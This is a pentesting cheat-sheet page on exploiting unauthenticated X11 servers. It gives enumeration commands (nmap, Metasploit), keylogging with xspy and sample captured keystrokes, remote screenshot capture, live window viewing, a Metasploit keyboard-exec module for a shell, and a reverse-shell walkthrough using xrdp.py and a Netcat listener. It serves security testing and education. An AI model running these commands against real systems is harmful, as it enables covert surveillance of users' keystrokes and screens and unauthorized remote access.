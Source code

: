 # 6000 - Pentesting X11

## Basic Information

The X Window System \(aka X\) is a windowing system for bitmap displays, which is common on UNIX-based operating systems. X provides the basic framework for a GUI based environment. X also does not mandate the user interface – individual programs handle this.  
From: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

**Default port:** 6000

```text
PORT       STATE   SERVICE
6000/tcp   open    X11
```

## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) to sniff the keyboard keystrokes.

Sample Output:

```text
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```

## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```text
./xrdp.py <IP:0>
```

Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

First we need to find the ID of the window using xwininfo

```text
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```

**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```

## Get Shell

```text
msf> use exploit/unix/x11/x11_keyboard_exec
```

Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

**./xrdp.py &lt;IP:0&gt; –no-disp**  


![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX15.jpg)

It will prompt a new control pane where we can see the R-shell option, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX16.jpg)

We will start the Netcat listening mode in our local system on port 5555, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX17.jpg)

Then add the IP and port and then select R-Shell, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX18.jpg)

Now as can be seen below we have complete system access:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX19.jpg)

[https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

